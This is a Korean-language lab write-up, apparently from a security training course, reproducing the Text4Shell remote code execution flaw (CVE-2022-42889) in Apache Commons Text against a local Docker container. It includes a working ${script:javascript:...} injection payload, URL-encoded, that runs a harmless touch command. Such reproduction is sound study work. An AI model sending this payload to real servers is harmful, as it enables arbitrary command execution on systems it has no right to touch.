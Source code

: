 # CVE-2022-42889
> 화이트햇 스쿨 3기 - 김동환

<br/>

### 요약

- CVE-2022-42889는 Apache Commons Text 라이브러리(1.5 ~ 1.9 버전)에서 발견된 원격 코드 실행(RCE) 취약점입니다.

- 특정 버전의 Commons Text는 문자열 변수 치환(StringSubstitutor) 시 기본값으로 포함된 특정 조회(lookup) 기능(예: script, dns, url)을 통해 외부 입력값을 처리합니다.
- 이 중 script 조회 기능 등은 외부에서 제공된, 신뢰할 수 없는 스크립트나 데이터를 처리하여 실행할 수 있으므로, 공격자는 조작된 문자열(예: ${script:javascript:...})을 입력값으로 전달하여 서버에서 임의의 코드를 실행시킬 수 있습니다.
- 따라서 악의적인 공격자는 취약한 라이브러리를 사용하는 애플리케이션에 특수하게 조작된 입력값을 전송함으로써, 해당 서버의 제어권을 획득하거나 추가 공격을 수행할 수 있습니다.

<br>

---

<br>

### 환경 구성 및 실행 (MAC OS)
<br>

1. 명령어 실행


```
$ brew install maven
$ git clone https://github.com/karthikuj/cve-2022-42889-text4shell-docker
$ cd cve-2022-42889-text4shell-docker
$ mvn clean install
$ docker build --tag=text4shell .
$ docker run -p 8080:8080 text4shell
```

<br>

2. 취약 서버 구동

![alt text](image.png)

<br>

3. 서버 구동 후 정상 접근 확인

![alt text](<스크린샷 2025-04-23 오전 6.55.30.png>)

<br>

4. 피해 시스템 / tmp 파일 내용 확인
```
docker ps -a
sudo docker exec -it {NAME} ls /tmp/
```
![alt text](<스크린샷 2025-04-23 오전 7.03.52.png>)

<br>

5. 파라미터 값 조작 후 Exploit 진행
```
http://localhost:8080/text4shell/attack?search=%24%7Bscript%3Ajavascript%3Ajava.lang.Runtime.getRuntime().exec(%27touch%20%2Ftmp%2Fexploit%27)%7D
```

![alt text](<스크린샷 2025-04-23 오전 7.07.38.png>)

> search 파라미터에 **${script:javascript:java.lang.Runtime.getRuntime().exec('touch /tmp/foo')}** 을 URL로 한번 인코딩 후 Exploit 진행




<br/>



### 결과


```
docker ps -a
sudo docker exec -it {NAME} ls /tmp/
```
![alt text](image-1.png)
> exploit 파일 생성 확인

<br/>

### 정리

CVE-2022-42889는 Apache Commons Text 1.5~1.9 버전의 문자열 보간 기능에서 ${script:javascript:...} 형태의 입력을 통해 서버에서 임의 명령어가 실행되는 원격 코드 실행 취약점으로, 1.10.0 버전에서 해당 기능이 비활성화되며 해결되었고, 입력값 검증 부재로 인한 치명적 보안 리스크를 보여준다.